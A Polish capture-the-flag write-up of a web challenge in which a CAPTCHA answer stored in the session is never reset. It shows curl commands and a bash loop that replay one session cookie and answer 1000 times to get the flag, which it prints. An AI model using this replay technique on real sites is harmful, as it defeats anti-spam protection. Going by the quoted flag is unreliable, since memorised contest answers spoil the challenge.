 # CAPTCHA Cracking Service (web, 100 pkt)
Arkadiusz Kozdra

# Treść
> Wielu twórców stron nikczemnie próbuje utrudnić mozolną pracę chińskich
> spambotów postujących viagrę.  Pomóż w zaspamowaniu świata tandetnymi
> reklamami poprzez rozwiązywanie obrazków CAPTCHA.  Obiecujemy, że żaden
> przepisany kod nie zostanie wykorzystany w dobrym celu, a za każde poprawne
> rozwiązanie otrzymasz 1 punkt w naszym programie lojalnościowym.
> Wynagrodzimy każdego, kto wesprze naszą słuszną misję rozwiązując
> przynajmniej 1000 obrazków.
>
> Zapraszamy pod adres: https://captcha.pwning2017.p4.team/.
>
> Format flagi: `pwn{litery_cyfry_i_znaki_specjalne}`.

# Rozwiązanie
Formularz wysyłający składa się tylko z jednego pola (odpowiedzi), bez żadnych
ukrytych pól.  Wśród ciasteczek jest jedno z sesją.

W takim razie skrypt pokazujący obrazek najwyraźniej losuje treść i umieszcza
prawidłową odpowiedź w sesji.

Czy skrypt sprawdzający resetuje prawidłową odpowiedź?

```sh
$ curl -s -b PHPSESSID=f5ab2f7baff18bfe227d99e4b4fd461c -d ct_captcha=Rh5ATL https://captcha.pwning2017.p4.team |grep '/ 1000'
1/1000
$ curl -s -b PHPSESSID=f5ab2f7baff18bfe227d99e4b4fd461c -d ct_captcha=Rh5ATL https://captcha.pwning2017.p4.team |grep '/ 1000'
2/1000
```

Najwyraźniej nie. Prosta pętla w bashu może wysłać w kółko takie żądanie
(być może dałoby się nawet zrównoleglić atak).

```sh
CAPTCHA=Rh5ATL
while :; do
    curl -s -b PHPSESSID=f5ab2f7baff18bfe227d99e4b4fd461c \
        -d ct_captcha=$CAPTCHA https://captcha.pwning2017.p4.team \
    | tee last.txt | grep 'pwn{\|/ 1000'

    grep -q '1000 / 1000' last.txt && break
done
```

I po chwili skrypt daje wynik:

```html
[...]
  Your points: 997 / 1000.
  Your points: 998 / 1000.
  Your points: 999 / 1000.
  Your points: 1000 / 1000.
  <br><strong>Congratulations! The flag is: pwn{captcha_implementations_not_done_carefully}</strong></p>
```
